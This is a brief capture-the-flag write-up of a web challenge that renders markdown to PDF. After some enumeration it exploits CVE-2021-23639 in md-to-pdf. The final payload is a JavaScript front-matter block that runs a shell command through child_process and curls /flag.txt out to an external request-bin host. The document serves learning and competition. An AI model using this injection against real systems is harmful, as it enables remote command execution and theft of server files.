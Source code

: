 ![my little website](images/my-little-website-challenge-pic.webp)

So as far my enumeration went that's what I found:

- `expressJS` server running, identified with the headers.
- Opens a headless chrome instance to render the pdf.
- Dynamic XSS didn't work, might be beacuse the bot doesn't wait for the JS execution and even forcing it to wait doesn't really work it renders the HTML,CSS and then the PDF.

A wild guess by my teammate `M0ngi` about the markdown parser, the CVE was `CVE-2021-23639` which occurs in the vulnerable version of `md-to-pdf`

So we execute our final payload.

```md
---js
((require("child_process")).execSync("curl https://en7nqjdbzyckx.x.pipedream.net/ -d \"$(cat /flag.txt)\" "))
---
```

![my little website](images/my-little-website-flag.webp)
